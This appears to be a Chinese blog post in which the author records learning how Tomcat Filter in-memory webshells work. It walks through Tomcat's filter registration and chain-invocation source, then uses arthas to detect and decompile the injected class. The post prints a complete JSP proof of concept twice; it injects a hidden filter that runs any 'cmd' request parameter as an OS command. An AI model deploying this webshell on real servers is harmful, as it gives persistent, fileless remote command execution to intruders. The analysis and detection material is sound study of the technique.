







# 前言

之前学了flask的内存马，一直都想学学Java的内存马，所以就学了Tomcat Filter内存马，感觉还是太菜了呜呜呜好难看不太懂。最近学Java写下的文章都不太想发出来了，因为自己本身就没搞懂，都是迷迷糊糊的，看着各种文章上面说是怎么怎么样，然后分析了一波，给出了POC和结论，我是除了会用POC其他一点都没看太懂，只能说自己还是太菜了呜呜呜。

主要跟着天下大木头师傅的文章进行学习。

# POC

注意命令执行那里放的是windows的，linux用注释里面的。

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    ServletContext servletContext = request.getServletContext();
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
    Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
    Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
    applicationContextContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);

    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
    String filterName = "ego";
    if (hashMap.get(filterName)==null){

        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                //Filter.super.init(filterConfig);
                //System.out.println("内存马init");
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                if (request.getParameter("cmd")!=null){
                    //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
                    String[] cmds = {"cmd","/c",request.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        response.getWriter().println(outputStream.toString());
                    }
                }


            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        hashMap.put(filterName,applicationFilterConfig);
        response.getWriter().println("inject successfully");
    }
%>
```


运行这个jsp马之后就成功注入了内存马：


# 环境

tomcat环境（版本需要为7.x以上）

因为关键的代码都在tomcat里面，IDEA直接找不到tomcat里面的代码，需要进行导入。

在`project structure`里面找到libraries，点加号，Java：


然后把tomcat的lib下面的所有jar包都给导进来就行了：




# 分析

想学的师傅们就别看我的分析了，上网上找各种文章叭，因为我自己都有点迷。


首先可以了解一下，Filter是怎么产生的。在Servlet中写Filter有两种方式，一种是把filter配置写到web.xml中，一种就是写注解：

```java
@WebFilter("/*")
```

看一下`ContextConfig.class`的`processClass()`：

```java
    protected void processClass(WebXml fragment, JavaClass clazz) {
        AnnotationEntry[] annotationsEntries = clazz.getAnnotationEntries();
        if (annotationsEntries != null) {
            String className = clazz.getClassName();
            AnnotationEntry[] var5 = annotationsEntries;
            int var6 = annotationsEntries.length;

            for(int var7 = 0; var7 < var6; ++var7) {
                AnnotationEntry ae = var5[var7];
                String type = ae.getAnnotationType();
                if ("Ljavax/servlet/annotation/WebServlet;".equals(type)) {
                    this.processAnnotationWebServlet(className, ae, fragment);
                } else if ("Ljavax/servlet/annotation/WebFilter;".equals(type)) {
                    this.processAnnotationWebFilter(className, ae, fragment);
                } else if ("Ljavax/servlet/annotation/WebListener;".equals(type)) {
                    fragment.addListener(className);
                }
            }
        }
```

发现如果匹配到了`Ljavax/servlet/annotation/WebFilter`，就进入`processAnnotationWebFilter()`。

首先是：

```java
        FilterDef filterDef = (FilterDef)fragment.getFilters().get(filterName);
        FilterMap filterMap = new FilterMap();
        boolean isWebXMLfilterDef;
        if (filterDef == null) {
            filterDef = new FilterDef();
            filterDef.setFilterName(filterName);
            filterDef.setFilterClass(className);
            isWebXMLfilterDef = false;
        } else {
            isWebXMLfilterDef = true;
        }
```

产生``FilterDef`和`FilterMap`，这也是将贯穿始终的两个类型。

看一下`fragment`，发现是个`Webxml`：



实际上也就是和web.xml相关联的一个变量，如果web.xml里面没有配置Filter，`(FilterDef)fragment.getFilters().get(filterName);`就得不到，所以`isWebXMLfilterDef = false;`。


之后就是对`FilterDef`和`FilterMap`的处理了。`FilterDef`里面有filter的name和class，就相当于xml中的这个：

```xml

<filter>
    <filter-name>filter1</filter-name>
    <filter-class>com.feng.filter1</filter-class>
</filter>
```

而filterMap里面就是filter的nam和url-pattern，相当于xml中的：

```xml

<filter-mapping>
    <filter-name>filter1</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```


经过处理后，就把它们添加到`fragment`中。

```java
if (!isWebXMLfilterDef) {
    fragment.addFilter(filterDef);
    if (urlPatternsSet || servletNamesSet) {
        filterMap.setFilterName(filterName);
        fragment.addFilterMapping(filterMap);
    }
}
```

```java
                if (!isWebXMLfilterDef) {
                    fragment.addFilter(filterDef);
                    if (urlPatternsSet || servletNamesSet) {
                        filterMap.setFilterName(filterName);
                        fragment.addFilterMapping(filterMap);
                    }
                }
```

而这些东西，最后都是到了`Context`（StandardContext）中，跳过其中的一些细节，知道即可：

```java
        FilterDef filter;
        for(var2 = webxml.getFilters().values().iterator(); var2.hasNext(); this.context.addFilterDef(filter)) {
            filter = (FilterDef)var2.next();
            if (filter.getAsyncSupported() == null) {
                filter.setAsyncSupported("false");
            }
        }
        var2 = webxml.getFilterMappings().iterator();

        while(var2.hasNext()) {
            FilterMap filterMap = (FilterMap)var2.next();
            this.context.addFilterMap(filterMap);
        }
```


而filter又是怎么调用呢？继续打断点跟进，入口在`ApplicationFilterFactory.class`的`createFilterChain()`方法中：

```java
    public static ApplicationFilterChain createFilterChain(ServletRequest request, Wrapper wrapper, Servlet servlet) {
        if (servlet == null) {
            return null;
        } else {
            ApplicationFilterChain filterChain = null;
            if (request instanceof Request) {
                Request req = (Request)request;
                if (Globals.IS_SECURITY_ENABLED) {
                    filterChain = new ApplicationFilterChain();
                } else {
                    filterChain = (ApplicationFilterChain)req.getFilterChain();
                    if (filterChain == null) {
                        filterChain = new ApplicationFilterChain();
                        req.setFilterChain(filterChain);
                    }
                }
            } else {
                filterChain = new ApplicationFilterChain();
            }

            filterChain.setServlet(servlet);
            filterChain.setServletSupportsAsync(wrapper.isAsyncSupported());
            StandardContext context = (StandardContext)wrapper.getParent();
            FilterMap[] filterMaps = context.findFilterMaps();
            if (filterMaps != null && filterMaps.length != 0) {
                DispatcherType dispatcher = (DispatcherType)request.getAttribute("org.apache.catalina.core.DISPATCHER_TYPE");
                String requestPath = null;
                Object attribute = request.getAttribute("org.apache.catalina.core.DISPATCHER_REQUEST_PATH");
                if (attribute != null) {
                    requestPath = attribute.toString();
                }

                String servletName = wrapper.getName();
                FilterMap[] var10 = filterMaps;
                int var11 = filterMaps.length;

                int var12;
                FilterMap filterMap;
                ApplicationFilterConfig filterConfig;
                for(var12 = 0; var12 < var11; ++var12) {
                    filterMap = var10[var12];
                    if (matchDispatcher(filterMap, dispatcher) && matchFiltersURL(filterMap, requestPath)) {
                        filterConfig = (ApplicationFilterConfig)context.findFilterConfig(filterMap.getFilterName());
                        if (filterConfig != null) {
                            filterChain.addFilter(filterConfig);
                        }
                    }
                }
```


看一下处理逻辑，先是声明一个类型为`ApplicationFilterChain`的`filterChain`，这个也是很重要的。

然后在这里调用`getParent()`获取当前的Context：




上面也提到了，之前的那些`FilterDef`还有`FilterMap`都放到了这个context里面：


继续往下看，从context中得到`filterMaps`之后进行遍历：



如果当前请求的path和filterMap中的url-pattern匹配了，就产生这么一个`ApplicationFilterConfig`的`filterConfig`（可以发现它也是从context中取得了，这个也很重要！），然后调用了`addFilter`：

```java
    void addFilter(ApplicationFilterConfig filterConfig) {
        ApplicationFilterConfig[] newFilters = this.filters;
        int var3 = newFilters.length;

        for(int var4 = 0; var4 < var3; ++var4) {
            ApplicationFilterConfig filter = newFilters[var4];
            if (filter == filterConfig) {
                return;
            }
        }

        if (this.n == this.filters.length) {
            newFilters = new ApplicationFilterConfig[this.n + 10];
            System.arraycopy(this.filters, 0, newFilters, 0, this.n);
            this.filters = newFilters;
        }

        this.filters[this.n++] = filterConfig;
    }
```

先判断当前的`this.filters`里面有没有，没有的话把它添加进去，可能还有一个扩容的处理。

这样`chainFilter`就组建完毕。需要注意的是，是每次发起Servlet请求都会有这样的一次`chainFilter`的处理，把所有urlpattern满足请求的path的filter都装入chain中，这也就容易联想到Filter中`doFilter`的那个`chain.doFilter`：

```java
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        chain.doFilter(request, response);
    }
```


装配完这个chain有什么用呢？继续跟进`StandardWrapperValve.class`的`invoke()`方法，跟进到这一行（实际上也可以在自己写的Filter里面打断点，然后回看之前的栈也可以找到）：




调用了`filterChain`的`doFilter()`方法，跟进后继续跟进`internalDoFilter()`方法

```java
    public void doFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
        if (Globals.IS_SECURITY_ENABLED) {
            ServletRequest req = request;
            ServletResponse res = response;

            try {
                AccessController.doPrivileged(() -> {
                    this.internalDoFilter(req, res);
                    return null;
                });
```

```java
    private void internalDoFilter(ServletRequest request, ServletResponse response) throws IOException, ServletException {
        if (this.pos < this.n) {
            ApplicationFilterConfig filterConfig = this.filters[this.pos++];

            try {
                Filter filter = filterConfig.getFilter();
                if (request.isAsyncSupported() && "false".equalsIgnoreCase(filterConfig.getFilterDef().getAsyncSupported())) {
                    request.setAttribute("org.apache.catalina.ASYNC_SUPPORTED", Boolean.FALSE);
                }

                if (Globals.IS_SECURITY_ENABLED) {
                    Principal principal = ((HttpServletRequest)request).getUserPrincipal();
                    Object[] args = new Object[]{request, response, this};
                    SecurityUtil.doAsPrivilege("doFilter", filter, classType, args, principal);
                } else {
                    filter.doFilter(request, response, this);
                }
```


关键的代码就是这里了。从`filterChain`的`filters`中依次取出`ApplicationFilterConfig`，然后`getFilter`得到过滤器，然后调用这个过滤器的`doFilter()`方法，也就是我们自己手写的过滤器的那个关键的处理代码。





因此调用Filter的流程需要我们理解的就这2个地方：

1. 遍历context中的`FilterMaps`，如果它的url-pattern和当前的path匹配，就去找相应的filterConfig的加入到filterChain的filters里面。
2. 将filters中的filterConfig取出，得到Filter然后调用它的doFilter。


因此想要实现Filter的内存注入，就是要得到当前的`StandardContext`，然后把`FilterMaps`，`FilterDefs`和`FilterConfigs`注入进去即可。


构造如下：

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.catalina.core.ApplicationContextFacade" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    ServletContext servletContext = request.getServletContext();
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade) servletContext;
    Field applicationContextFacadeContext = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextFacadeContext.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextFacadeContext.get(applicationContextFacade);
    Field applicationContextContext = applicationContext.getClass().getDeclaredField("context");
    applicationContextContext.setAccessible(true);
    StandardContext standardContext = (StandardContext) applicationContextContext.get(applicationContext);

    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
    String filterName = "ego";
    if (hashMap.get(filterName)==null){

        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
                //Filter.super.init(filterConfig);
                //System.out.println("内存马init");
            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                if (request.getParameter("cmd")!=null){
                    //String[] cmds = {"/bin/sh","-c",request.getParameter("cmd")}
                    String[] cmds = {"cmd","/c",request.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    byte[] bcache = new byte[1024];
                    int readSize = 0;
                    try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                        while ((readSize =in.read(bcache))!=-1){
                            outputStream.write(bcache,0,readSize);
                        }
                        response.getWriter().println(outputStream.toString());
                    }
                }


            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        hashMap.put(filterName,applicationFilterConfig);
        response.getWriter().println("inject successfully");
    }
%>
```

代码都很容易理解了，就是按照上面的思路进行构造。

访问shell.jsp即可成功注入内存马：





# 内存马的检测工具

arthas：https://arthas.aliyun.com/arthas-boot.jar


```shell
D:\this_is_feng\CTF\tools>java -jar arthas-boot.jar
[INFO] arthas-boot version: 3.5.4
[INFO] Process 14788 already using port 3658
[INFO] Process 14788 already using port 8563
[INFO] Found existing java process, please choose one and input the serial number of the process, eg : 1. Then hit ENTER.
* [1]: 14788 org.apache.catalina.startup.Bootstrap
  [2]: 22768 org.jetbrains.jps.cmdline.Launcher
  [3]: 24208 org.jetbrains.idea.maven.server.RemoteMavenServer36
  [4]: 2832 Behinder.jar
  [5]: 22808
  [6]: 5816 burpsuite_pro_v2021.8.jar
  [7]: 23436 org.jetbrains.jps.cmdline.Launcher
  [8]: 4092
1
[INFO] arthas home: C:\Users\15997\.arthas\lib\3.5.4\arthas
[INFO] The target process already listen port 3658, skip attach.
[INFO] arthas-client connect 127.0.0.1 3658
  ,---.  ,------. ,--------.,--.  ,--.  ,---.   ,---.
 /  O  \ |  .--. ''--.  .--'|  '--'  | /  O  \ '   .-'
|  .-.  ||  '--'.'   |  |   |  .--.  ||  .-.  |`.  `-.
|  | |  ||  |\  \    |  |   |  |  |  ||  | |  |.-'    |
`--' `--'`--' '--'   `--'   `--'  `--'`--' `--'`-----'


wiki       https://arthas.aliyun.com/doc
tutorials  https://arthas.aliyun.com/doc/arthas-tutorials.html
version    3.5.4
main_class
pid        14788
time       2021-11-02 22:08:03

[arthas@14788]$ sc *.Filter
com.alibaba.arthas.deps.ch.qos.logback.core.filter.AbstractMatcherFilter
com.alibaba.arthas.deps.ch.qos.logback.core.filter.EvaluatorFilter
com.alibaba.arthas.deps.ch.qos.logback.core.filter.Filter
com.feng.filter.CharacterEncodingFilter
javax.servlet.Filter
javax.servlet.GenericFilter
org.apache.catalina.filters.CsrfPreventionFilter
org.apache.catalina.filters.CsrfPreventionFilterBase
org.apache.catalina.filters.FilterBase
org.apache.catalina.filters.HttpHeaderSecurityFilter
org.apache.jsp.shell_jsp$1
org.apache.tomcat.websocket.server.WsFilter
Affect(row-cnt:12) cost in 32 ms.
[arthas@14788]$ jad --source-only org.apache.jsp.shell_jsp$1
        /*
         * Decompiled with CFR.
         *
         * Could not load the following classes:
         *  javax.servlet.Filter
         *  javax.servlet.FilterChain
         *  javax.servlet.FilterConfig
         *  javax.servlet.ServletException
         *  javax.servlet.ServletRequest
         *  javax.servlet.ServletResponse
         */
        package org.apache.jsp;

        import java.io.ByteArrayOutputStream;
        import java.io.IOException;
        import java.io.InputStream;
        import javax.servlet.Filter;
        import javax.servlet.FilterChain;
        import javax.servlet.FilterConfig;
        import javax.servlet.ServletException;
        import javax.servlet.ServletRequest;
        import javax.servlet.ServletResponse;

        class shell_jsp.1
        implements Filter {
            shell_jsp.1() {
            }

            public void init(FilterConfig filterConfig) throws ServletException {
            }

            public void destroy() {
/*199*/         super.destroy();
            }

            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
/*180*/         if (request.getParameter("cmd") != null) {
/*182*/             String[] cmds = new String[]{"cmd", "/c", request.getParameter("cmd")};
/*183*/             InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
/*184*/             byte[] bcache = new byte[1024];
/*185*/             int readSize = 0;
/*186*/             Throwable throwable = null;
                    Object var9_10 = null;
                    try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream();){
/*187*/                 while ((readSize = in.read(bcache)) != -1) {
/*188*/                     outputStream.write(bcache, 0, readSize);
                        }
/*190*/                 response.getWriter().println(outputStream.toString());
                    }
                    catch (Throwable throwable2) {
                        if (throwable == null) {
                            throwable = throwable2;
                        } else if (throwable != throwable2) {
                            throwable.addSuppressed(throwable2);
                        }
                        throw throwable;
                    }
                }
            }
        }

[arthas@14788]$


```


# 总结

太难咧，好久没碰Java，Servlet和tomcat也没了解，看这玩意就跟看天书一样，爬了爬了，接下来Java先从简单学起了。


# 参考链接

https://www.yuque.com/tianxiadamutou/zcfd4v/kd35na#de7894b8

https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w

https://www.cnblogs.com/whgk/p/6399262.html

https://xz.aliyun.com/t/10196#toc-3

https://github.com/Firebasky/Java/blob/main/java%E5%86%85%E5%AD%98%E9%A9%AC/Tomcat%20Filter/Tomcat%20Filter.rar

https://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247497074&idx=1&sn=70af33768141a7f47ba897d0088c1d6f&chksm=9acd25edadbaacfb66508a9c7d3a4fc4c8ab3e4b10750649ca660918c9fb6a6c38bb82234c0d&mpshare=1&scene=23&srcid=07115avttH7no39MEFCHDTYD&sharer_sharetime=1625974302865&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd